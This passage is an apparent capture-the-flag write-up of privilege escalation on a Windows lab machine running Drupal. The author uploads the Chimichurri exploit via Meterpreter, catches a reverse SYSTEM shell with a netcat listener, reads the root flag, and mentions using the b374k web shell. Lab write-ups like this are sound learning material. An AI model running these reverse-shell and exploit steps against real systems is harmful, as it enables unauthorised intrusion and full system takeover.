 I kept digging the inter-webs and came across this exploit on github https://github.com/Re4son/Chimichurri/

Now that we have a meterpreter shell we can use the upload function built in metasploit. I uploaded Chimichurri.exe to C:\inetpub\drupal-7.54\

Started a netcat listener on my host machine

$ nc -lvp 5555
Listening on [0.0.0.0] (family 0, port 5555)

and on metasploit I ran Chimichurri.exe <my ip> 5555
I got another shell but this time as root.

Connection from [10.10.10.9] port 5555 [tcp/*] accepted (family 2, sport 49314)
Microsoft Windows [Version 6.1.7600]
Copyright © 2009 Microsoft Corporation. All rights reserved.

cd C:\Users\Administrator\Desktop

Directory of C:\Users\Administrator\Desktop

19/03/2017 08:33 �� <DIR> .
19/03/2017 08:33 �� <DIR> ..
19/03/2017 08:34 �� 32 root.txt.txt
 1 File(s) 32 bytes
 2 Dir(s) 31.039.451.136 bytes free

Got Root Flag!

I really enjoyed this box but in some parts I was struggling that’s why I had to use b374k’s shell if someone else did it differently I would love to hear how you achieved to upload a file to the victim machine. I’m happy to announce that this my very first writeup I’ve ever done.
